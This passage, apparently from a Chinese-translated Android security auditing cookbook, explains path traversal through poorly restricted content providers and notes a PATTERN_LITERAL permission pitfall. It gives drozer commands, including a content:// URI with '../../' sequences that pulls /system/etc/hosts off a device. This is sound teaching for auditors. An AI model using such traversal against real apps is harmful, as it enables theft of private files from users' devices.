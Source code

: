 ![How to do it...](img/00094.jpeg)

一些内容提供商支持文件查询，尤其是文件管理器类型的应用。如果内容提供商对允许应用读取的文件类型和路径没有限制，这意味着攻击者可能能够执行内容提供商实际打算提供的文件之外的目录的路径遍历，或者在许多情况下，允许攻击者从受害者设备上的敏感目录中提取文件。要提取文件，可以使用以下命令:

```java
dz> run app.provider.download [URI]

```

在前面的命令中，`URI`将是您想要从内容提供商提取的文件的 URI。如果在内容提供者处理这类查询的部分的实际实现中没有对输入进行保护或过滤，您可能会插入文件路径并滥用缺乏保护来枚举设备文件系统的其他区域中的文件和文件内容；您可以尝试不同的文件路径，如下所示:

```java
dz> run app.provider.download content://[valid-URI]/../../[other file path]    [local-path]

```

在前面的命令中，`[valid-URI]`将是易受攻击的内容提供商拥有权限或已注册处理的 URI，`[other file path]`将是您想要提取的文件的路径，`[local-path]`将是您想要“下载”该文件的文件路径。以下是一个例子:

```java
dz> run app.provider.download content://vulnerabledatabase/../../../system/etc/hosts /tmp/hostsFileExtracted.txt

```

对于那些有黑客/审计 web 应用经验的人来说，这与 web 应用中的路径遍历和本地文件包含漏洞非常相似。这也让安卓应用面临许多同样的风险。针对非常流行的应用，报告了几个此漏洞的实际示例；参见*参见...*部分食谱举例。

如果您的内容提供商使用`PATTERN_LITERAL`匹配类型设置路径级别权限，安卓权限框架将仅在请求的路径与您的完全匹配时执行检查以保护您的内容提供商！下面截图一个例子:

![How to do it...](img/00095.jpeg)
